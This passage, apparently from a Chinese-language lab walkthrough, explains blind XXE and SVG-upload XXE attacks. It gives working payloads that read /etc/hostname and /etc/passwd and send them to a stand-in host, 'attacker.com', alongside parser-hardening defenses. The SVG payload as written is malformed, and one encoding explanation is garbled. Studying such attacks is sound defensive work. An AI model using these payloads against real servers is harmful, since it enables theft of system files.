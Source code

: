 - PHP：`libxml_disable_entity_loader(true);`
- Java：`dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);`

### 2. 盲注XXE（关卡4）

**攻击流程**：

1. **准备恶意DTD**（托管于攻击者服务器`http://attacker.com/exploit.dtd`）：

   ```
   <!ENTITY % file SYSTEM "file:///etc/hostname">
   <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?leak=%file;'>">
   %oob;
   %exfil;
   ```

   - `%`是`%`的HTML编码，避免解析冲突。

2. **目标XML注入**：

   ```
   <!DOCTYPE foo SYSTEM "http://attacker.com/exploit.dtd">
   <stockCheck>1</stockCheck>
   ```

3. **捕获数据**：攻击者服务器接收请求`http://attacker.com/?leak=webserver-hostname`。

**关键点**：

- **参数实体（`%`）**：仅在DTD内部生效，支持嵌套引用。
- **外部DTD必要性**：绕过某些解析器对内部DTD的限制（如Java默认禁用内部参数实体嵌套）。

**防御**：

- 禁用外部DTD：`setFeature("http://apache.org/xml/features/disallow-doctype-decl", true)`
- 监控出站HTTP请求。

### 3. SVG XXE（关卡5）

**攻击流程**：

1. **构造恶意SVG**：

   ```
   <svg xmlns="http://www.w3.org/2000/svg">
     <!ENTITY % file SYSTEM "file:///etc/passwd">
     <!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?leak=%file;'>">
     %oob;
     %exfil;
   </svg>
   ```

2. **上传SVG文件**：通过头像上传、图标导入等功能触发解析。

3. **数据外带**：服务器解析SVG时发起HTTP请求泄露数据。

**关键点**：

- **SVG的XML本质**：允许内联DTD，无需外部引用。
- **绕过文件类型检查**：部分系统仅校验文件头（如`<?xml`），未过滤实体。
